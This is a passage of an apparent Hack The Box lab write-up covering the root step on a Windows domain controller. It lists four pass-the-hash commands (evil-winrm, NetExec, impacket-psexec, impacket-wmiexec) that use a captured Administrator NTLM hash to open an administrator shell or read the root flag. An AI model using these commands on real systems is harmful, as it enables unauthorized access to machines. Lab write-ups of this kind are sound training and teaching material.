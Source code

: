 # Root

Getting yourself a root shell at this point should be easy. You can use any of this 4 methods.

```bash
# EvilWinRM
evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6

# NetExec
nxc smb 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -d htb.local -x "more C:\Users\Administrator\Desktop\root.txt"

# Psexec
impacket-psexec -dc-ip htb.local -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161

# Wmiexec
impacket-wmiexec -dc-ip htb.local -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 Administrator@10.10.10.161
```

*EvilWinRM*

![image](https://gist.github.com/assets/58165365/cea9086d-fb88-4b46-ac71-3f798bbd3d44)

*NetExec*

![image](https://gist.github.com/assets/58165365/00801be4-499c-4d9c-9e37-280c41eab1fb)

*Psexec*

![image](https://gist.github.com/assets/58165365/8f2ef73a-af6e-4a54-b9ed-bd542e914f6a)

*Wmiexec*

![image](https://gist.github.com/assets/58165365/a891c61d-9d30-4503-8736-a272dde4c121)



<style>
.callout {
  border-radius: 5px;
  padding: 15px;
  margin: 20px 0;
  color: white;
}
.callout-tip {
  background-color: #2d6a4f;
}
.callout-info {
  background-color: #1d3557;
}
.callout-warning {
  background-color: #a68a00;
}
.callout-danger {
  background-color: #8d0202;
}
</style>
